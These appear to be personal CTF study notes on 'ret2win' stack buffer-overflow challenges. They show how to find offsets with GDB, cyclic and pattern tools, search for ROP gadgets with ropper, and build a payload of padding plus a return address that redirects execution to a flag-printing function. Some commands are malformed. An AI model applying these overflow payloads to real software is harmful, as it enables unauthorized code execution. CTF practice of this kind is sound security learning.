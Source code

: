 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

```py
| Finding the offset using GDB for the return address |
- file <filename>
- info functions
- cyclic 100
- run and check the RIP register which is the instruction pointer
- cyclic -l <the four characters found>
- Find the return address, objdump, ghidra (disass <function name>)

For 64 bit ELF, take the first 4 bytes of RSP to find the offset, it works differently than 32 bit design. We just need to find offset values to overflow the buffer and RBP to reach the RIP/Return address. For this, I use pattern create and pattern offset in gdb-peda and we check the register RBP register.

python3 -c 'print("A"*offset+"return address")' > payload
./ret2win < payload
```
`RET2WIN with parameters`

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/28a224bb-a00c-42bd-80c2-ec9967cd919e)
```bash
ropper --file <filename> --search "pop rdi"
```

---

```py
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Control the EIP or RIP

Alternatively, inside gdb use pattern create 200
```



Find the offset we use the value in `RSP` register.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

#### Things to do in classic ret2win :

Use Ghidra and GDB. 

```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

